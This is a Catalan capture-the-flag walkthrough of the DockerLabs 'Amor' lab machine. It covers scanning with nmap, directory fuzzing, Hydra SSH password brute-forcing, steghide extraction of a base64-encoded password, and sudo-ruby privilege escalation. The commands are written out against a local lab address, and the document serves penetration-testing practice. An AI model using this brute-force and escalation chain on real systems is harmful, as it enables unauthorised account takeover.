 # Amor

Plataforma: Dockerlabs
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 5 de diciembre de 2024 21:10

## Reconeixement

### NMAP

```bash
sudo nmap -p- -sS -sCV --min-rate 5000 -vvv  -n -Pn 172.17.0.2 -oG allports
```

![image.png](<imagenes/image 11.png>)

```bash
sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted
cat targeted -l ruby
```

![image.png](<imagenes/image 12.png>)

Web :

![image.png](<imagenes/image 13.png>)

Possibles usuaris :

Carlota
Juan

### Provem possibles usuaris SSH

### Fuzzing WEB

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30 -u [http://172.17.0.2/](http://172.17.0.2/) -x html,php,php7,txt,py
```

![image.png](<imagenes/image 14.png>)

Fuff per trobar directoris :

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "[http://172.17.0.2/FUZZ](http://172.17.0.2/FUZZ)" -recursion -recursion-depth 2 -c -ic -v
```

### Explotacio

Provem hydra amb els usuarios trobats:

Juan : no troba pass

Carlota: b******l

provem conexio ssh

Entrem com a carlota i trobem fitxer:

![image.png](<imagenes/image 15.png>)

Descarreguem fitxer amb :

```bash
ssh [carlota@172.17.0.2](mailto:carlota@172.17.0.2) 'cat /home/carlota/Desktop/fotos/vacaciones/imagen.jpg' > /home/fil/Desktop/docker/imagen.jpg
```

Mirem contingut amb Exiftool, pero no trobem res

![image.png](<imagenes/image 16.png>)

Trobem un altre usuari:

oscar


Provem hydra

```bash
hydra -l oscar -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh -vV
```

No trobem pass

Probem a extreure info amb :

```bash
sudo steghide extract -sf imagen.jpg
```

Trobem fitxer secret.txt

![image.png](<imagenes/image 17.png>)

ZXNsYWNhc2FkZXBpbnlwb24=

Decodifiquem cadena:
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

ZXNsYWNhc2FkZXBpbnlwb24= es************pon

Probem aquest password amb l'altre usuari

Oscar
es************pon

Entrem per ssh

```bash
ssh [oscar@172.17.0.2](mailto:oscar@172.17.0.2)
Pass: es************pon
```

Busquem fitxers

![image.png](<imagenes/image 18.png>)

Al escriptori hi ha un txt:

![image.png](<imagenes/image 19.png>)

### Escalada

Busquem permisos amb sudo

```bash
Sudo -l
```

![image.png](<imagenes/image 20.png>)

Podem explotar: ruby

Busquem GTOBINS:

![image.png](<imagenes/image 21.png>)

Executem :

![image.png](<imagenes/image 22.png>)

![image.png](<imagenes/image 23.png>)